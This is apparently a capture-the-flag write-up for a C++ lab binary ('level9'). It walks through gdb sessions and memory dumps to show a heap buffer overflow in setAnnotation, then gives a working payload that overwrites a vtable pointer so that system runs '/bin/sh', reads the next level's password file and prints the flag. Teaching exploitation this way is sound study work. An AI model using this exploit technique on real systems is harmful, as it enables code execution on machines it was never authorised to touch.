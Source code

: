 ## C++ is bad too (level9)

This level's [binary](level9/source.cpp) is written in C++. It contains an _N_
class which stores a 100-bytes long character buffer and an int. The character
buffer contents are set with the _setAnnotation_ method. So this binary takes at
least one argument (or it exits) and creates two instances of the class with
C++'s "new" keyword. This basically performs an allocation and sets the int
member of the struct to the given value. There is also two operator functions,
one for '+' and an other for '-', which simply adds or substracts the int member
values and returns the result as an int.

So the 2 N instances, let's call them _a_ and _b_, are initialized with 5 and 6
respectively. Then the _setAnnotation_ method is called on _a_ and it copies the
argument provided by the user directly to the member buffer without checking its
length which makes this susceptible to a buffer overflow attack.

Lets see the memory layout after all this:

```shell
# run gdb on the binary
gdb ./level9
# disassemble main to see where to break
(gdb) disass main
...
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt> # a is allocated
   0x0804861c <+40>:    mov    %eax,%ebx
   0x0804861e <+42>:    movl   $0x5,0x4(%esp)
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei> # a is initialized to 5
...
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt> # b is allocated
   0x0804863e <+74>:    mov    %eax,%ebx
   0x08048640 <+76>:    movl   $0x6,0x4(%esp)
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei> # b is initialized to 6
...
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
...
# break after a's allocation to get its address
(gdb) b *0x0804861c
Breakpoint 1 at 0x0804861c
# break after b's allocation for the same reason
(gdb) b *0x0804863e
Breakpoint 2 at 0x0804863e
# break after the setAnnotation call
(gdb) b *0x0804867c
Breakpoint 3 at 0x804867c
# start the program with an argument
(gdb) run "aaaabbbbccccddddeeeefghijklm"
Starting program: /home/user/level9/level9 "aaaabbbbccccddddeeeefghijklm"

Breakpoint 1, 0x0804861c in main ()
# see a's address
(gdb) x $eax
0x804a008:      0x00000000
# go to second breakpoint
(gdb) c
Continuing.

Breakpoint 2, 0x0804863e in main ()
# see b's address
(gdb) x $eax
0x804a078:      0x00000000
# go to last breakpoint
(gdb) c
Continuing.

Breakpoint 3, 0x0804867c in main ()
```

Now from there we can see that b is located 112 bytes after _a_. This makes
sense since the allocation function in both cases takes a parameter set to
"0x6c", 108 in decimal, which we can guess is the size of the class instance.
From these informations we can see the memory layout of _a_ and _b_:

```
# print 224 bytes of memory starting from a's address
(gdb) x/56wx 0x804a008
0x804a008:      0x08048848      0x61616161      0x62626262      0x63636363
0x804a018:      0x64646464      0x65656565      0x69686766      0x6d6c6b6a
0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a038:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a048:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a058:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a068:      0x00000000      0x00000000      0x00000005      0x00000071
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d8:      0x00000000      0x00000000      0x00000006      0x00020f21
```

We can see the character buffer from the second word on the first line up to the
end of the second line (from 0x804a00c to 0x804a028), and that it is filled with
our input as expected. At the end of the 7th line there is a word containing the
value 5 (at 0x804a070) which was _a_'s initialization value. _b_ is layed out
simirlarly but with an empty character buffer and its value set to 6 on the last
line (at 0x804a0e0).

Also, both _a_ and _b_ start with the same value 0x08048848. It is the first
word and we can see it again 7 lines down at b's address (0x804a078). If we
check it out, we can see that it points to the address of a function:

```shell
(gdb) x 0x08048848
0x8048848 <_ZTV1N+8>:   0x0804873a
(gdb) x 0x0804873a
0x804873a <_ZN1NplERS_>:        0x8be58955
(gdb) disass _ZN1NplERS_
Dump of assembler code for function _ZN1NplERS_:
   0x0804873a <+0>:     push   %ebp
   0x0804873b <+1>:     mov    %esp,%ebp
   0x0804873d <+3>:     mov    0x8(%ebp),%eax
   0x08048740 <+6>:     mov    0x68(%eax),%edx
   0x08048743 <+9>:     mov    0xc(%ebp),%eax
   0x08048746 <+12>:    mov    0x68(%eax),%eax
   0x08048749 <+15>:    add    %edx,%eax
   0x0804874b <+17>:    pop    %ebp
   0x0804874c <+18>:    ret
End of assembler dump.
```

This really short function takes two parameters, fetches a value at an offset of
0x68 (104) bytes and adds them. This precisely where the numeric value of the
_N_ class is located. So this is the '+' operator for the class. At the next
address, 4 bytes after we have the '-' operator:

```shell
(gdb) x 0x804874e
0x804874e <_ZN1NmiERS_>:        0x8be58955
```

If we overwrite this value by providing the right payload to the binary, the
program segfaults because _b_'s '+' operator is used at the end of the program.

```shell
./level9 "$(python -c 'print "a" * 108 + "bbbb"')"
Segmentation fault (core dumped)
```

So now the exploit. Since the operator is loaded through a pointer to a function
address situated at the start of _b_, what we need to do is overwrite this value
with a valid address whose value is the address of the system function. _b_'s
address is not only the where the operator function is located but it is also
the first argument of the operator function (this is what _this_ is, a pointer
to the instance of the class calling the method). So it will be the argument for
system too. Obviously the raw bytes of the address pointing to system are not a
valid shell command, so we need to add a separator and end the string with the
program we want to launch.

| system (4) | padding (104) | _b_'s address (4) | end the command string (9) |
|------------|---------------|-------------------|----------------------------|
| 0xb7d86060 | 0x909090...   | 0x0804a00c        | ";/bin/sh"                 |

```shell
# run the exploit
./level9 $(python -c 'print "\xb7\xd8\x60\x60"[::-1] + "\x90" * 104 + "\x08\x04\xa0\x0c"[::-1] + ";/bin/sh"')
# enjoy
whoami
bonus0
# your flag
cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
